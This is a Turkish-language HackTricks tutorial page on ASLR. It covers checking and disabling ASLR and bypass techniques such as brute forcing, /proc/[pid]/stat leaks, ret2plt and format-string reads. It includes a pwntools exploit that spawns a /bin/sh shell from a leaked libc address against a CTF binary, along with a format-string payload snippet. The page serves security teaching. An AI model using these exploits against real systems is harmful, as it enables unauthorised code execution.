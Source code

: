 # ASLR

{{#include ../../../../banners/hacktricks-training.md}}

## Temel Bilgiler

**Adres Alanı Düzeni Rastgeleleştirme (ASLR)**, işletim sistemlerinde kullanılan bir güvenlik tekniğidir ve **sistem ve uygulama süreçleri** tarafından kullanılan bellek adreslerini rastgele hale getirir. Bu sayede, bir saldırganın belirli süreçlerin ve verilerin, örneğin yığın, yığın bellek ve kütüphaneler gibi, konumunu tahmin etmesi önemli ölçüde zorlaşır ve bu da belirli türdeki istismarları, özellikle de tampon taşmalarını azaltır.

### **ASLR Durumunu Kontrol Etme**

Bir Linux sisteminde ASLR durumunu **kontrol etmek** için, `/proc/sys/kernel/randomize_va_space` dosyasındaki değeri okuyabilirsiniz. Bu dosyada saklanan değer, uygulanan ASLR türünü belirler:

- **0**: Rastgeleleştirme yok. Her şey statik.
- **1**: İhtiyatlı rastgeleleştirme. Paylaşılan kütüphaneler, yığın, mmap(), VDSO sayfası rastgeleleştirilmiştir.
- **2**: Tam rastgeleleştirme. İhtiyatlı rastgeleleştirme ile rastgeleleştirilen unsurlara ek olarak, `brk()` ile yönetilen bellek rastgeleleştirilmiştir.

ASLR durumunu aşağıdaki komut ile kontrol edebilirsiniz:
```bash
cat /proc/sys/kernel/randomize_va_space
```
### **ASLR'yi Devre Dışı Bırakma**

ASLR'yi **devre dışı bırakmak** için `/proc/sys/kernel/randomize_va_space` değerini **0** olarak ayarlarsınız. ASLR'yi devre dışı bırakmak, genellikle test veya hata ayıklama senaryoları dışında önerilmez. İşte bunu nasıl yapabileceğiniz:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
ASLR'yi bir yürütme için de devre dışı bırakabilirsiniz:
```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```
### **ASLR'yi Etkinleştirme**

ASLR'yi **etkinleştirmek** için, `/proc/sys/kernel/randomize_va_space` dosyasına **2** değerini yazabilirsiniz. Bu genellikle root ayrıcalıkları gerektirir. Tam rastgeleleştirme, aşağıdaki komutla yapılabilir:
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
### **Yeniden Başlatmalarda Süreklilik**

`echo` komutlarıyla yapılan değişiklikler geçicidir ve yeniden başlatıldığında sıfırlanır. Değişikliği kalıcı hale getirmek için `/etc/sysctl.conf` dosyasını düzenlemeniz ve aşağıdaki satırı eklemeniz veya değiştirmeniz gerekir:
```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```
`/etc/sysctl.conf` dosyasını düzenledikten sonra, değişiklikleri uygulamak için:
```bash
sudo sysctl -p
```
Bu, ASLR ayarlarınızın yeniden başlatmalar arasında kalmasını sağlayacaktır.

## **Atlatmalar**

### 32bit brute-forcing

PaX, işlem adres alanını **3 gruba** ayırır:

- **Kod ve veri** (başlatılmış ve başlatılmamış): `.text`, `.data` ve `.bss` —> `delta_exec` değişkeninde **16 bit** entropi. Bu değişken, her işlemle rastgele başlatılır ve başlangıç adreslerine eklenir.
- `mmap()` ile tahsis edilen **bellek** ve **paylaşılan kütüphaneler** —> **16 bit**, `delta_mmap` olarak adlandırılır.
- **Yığın** —> **24 bit**, `delta_stack` olarak adlandırılır. Ancak, etkili olarak **11 bit** kullanır (10. bayttan 20. bayta kadar dahil), **16 bayt** hizalıdır —> Bu, **524,288 olası gerçek yığın adresi** ile sonuçlanır.

Önceki veriler 32-bit sistemler içindir ve azaltılmış nihai entropi, istismar başarılı bir şekilde tamamlanana kadar yürütmeyi tekrar tekrar denemek suretiyle ASLR'yi atlatmayı mümkün kılar.

#### Brute-force fikirleri:

- Eğer shellcode'dan önce **büyük bir NOP kaydı** barındıracak kadar büyük bir taşma varsa, yığında adresleri brute-force yaparak akışın **NOP kaydının bir kısmının üzerinden atlamasını** sağlayabilirsiniz.
- Taşma o kadar büyük değilse ve istismar yerel olarak çalıştırılabiliyorsa, **NOP kaydını ve shellcode'u bir ortam değişkenine eklemek** mümkündür.
- Eğer istismar yerel ise, libc'nin temel adresini brute-force yapmayı deneyebilirsiniz (32bit sistemler için yararlıdır):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
- Uzak bir sunucuya saldırıyorsanız, **`usleep` `libc` fonksiyonunun adresini brute-force etmeyi** deneyebilirsiniz, argüman olarak 10 (örneğin) geçerek. Eğer bir noktada **sunucu yanıt vermek için 10 saniye ekstra alıyorsa**, bu fonksiyonun adresini bulmuşsunuzdur.

> [!TIP]
> 64 bit sistemlerde entropi çok daha yüksektir ve bu mümkün değildir.

### Yerel Bilgiler (`/proc/[pid]/stat`)

Bir sürecin **`/proc/[pid]/stat`** dosyası her zaman herkes tarafından okunabilir ve **ilginç** bilgiler içerir, örneğin:

- **startcode** & **endcode**: İkili dosyanın **TEXT**'inin üstünde ve altında adresler
- **startstack**: **stack**'in başlangıç adresi
- **start_data** & **end_data**: **BSS**'nin üstünde ve altında adresler
- **kstkesp** & **kstkeip**: Mevcut **ESP** ve **EIP** adresleri
- **arg_start** & **arg_end**: **cli argümanlarının** üstünde ve altında adresler.
- **env_start** & **env_end**: **env değişkenlerinin** üstünde ve altında adresler.

Bu nedenle, eğer saldırgan, istismar edilen ikili dosyanın bulunduğu bilgisayarda ise ve bu ikili dosya ham argümanlardan taşmayı beklemiyorsa, ancak bu dosyayı okuduktan sonra oluşturulabilecek farklı bir **girdi**'den bekliyorsa, bir saldırganın **bu dosyadan bazı adresleri alması ve bunlardan istismar için ofsetler oluşturması mümkündür**.

> [!TIP]
> Bu dosya hakkında daha fazla bilgi için [https://man7.org/linux/man-pages/man5/proc.5.html](https://man7.org/linux/man-pages/man5/proc.5.html) adresinde `/proc/pid/stat` araması yapın.

### Bir leak'e sahip olmak

- **Zorluk bir leak vermektir**

Eğer size bir leak verilirse (kolay CTF zorlukları), ondan ofsetleri hesaplayabilirsiniz (örneğin, istismar ettiğiniz sistemde kullanılan tam libc sürümünü bildiğinizi varsayarak). Bu örnek istismar, [**buradan örnek**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak) alınmıştır (daha fazla ayrıntı için o sayfaya bakın):
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
- **ret2plt**

Bir buffer overflow kullanarak, libc'den bir fonksiyonun adresini dışarı sızdırmak için bir **ret2plt** istismar etmek mümkün olacaktır. Kontrol et:

{{#ref}}
ret2plt.md
{{#endref}}

- **Format Strings Arbitrary Read**

ret2plt'de olduğu gibi, bir format string zafiyeti aracılığıyla rastgele bir okuma varsa, GOT'dan bir **libc fonksiyonu** adresini dışarı sızdırmak mümkündür. Aşağıdaki [**örnek buradan**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt_and_got):
```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```
Format Strings rastgele okuma hakkında daha fazla bilgi bulabilirsiniz:

{{#ref}}
../../format-strings/
{{#endref}}

### Ret2ret & Ret2pop

Yığın içindeki adresleri kullanarak ASLR'yi atlatmayı deneyin:

{{#ref}}
../../stack-overflow/ret2ret.md
{{#endref}}

{{#include ../../../../banners/hacktricks-training.md}}
